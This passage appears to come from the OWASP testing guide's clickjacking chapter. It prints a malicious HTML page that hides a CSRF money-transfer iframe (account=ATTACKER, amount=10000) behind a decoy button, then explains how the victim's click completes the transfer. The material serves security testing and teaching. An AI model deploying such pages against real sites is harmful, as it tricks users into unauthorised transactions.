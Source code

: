 ```html
        //--></style>

    </head>
    <body>
        <div id="content">
            <h1>www.owasp.com</h1>
            <form action="http://www.owasp.com">
                <input type="submit" class="button" value="Click and go!">
            </form>
        </div>

                <iframe id="clickjacking" src="http://localhost/csrf/transfer.php?account=ATTACKER&amount=10000" width="500" height="500" scrolling="no" frameborder="none">
                </iframe>
    </body>
</html>
```

With the help of CSS (note the `#clickjacking` block) we can mask and suitably position the iframe in such a way as to match the buttons. If the victim click on the button “Click and go!” the form is submitted and the transfer is completed.

![Clickjacking Example Malicious Page 3](images/Clickjacking_example_malicious_page_3.png)\
*Figure 4.11.9-6: Clickjacking Example Malicious Page 3*

The example presented uses only basic clickjacking technique, but with advanced technique is possible to force user filling form with values defined by the attacker.

## Tools

## References

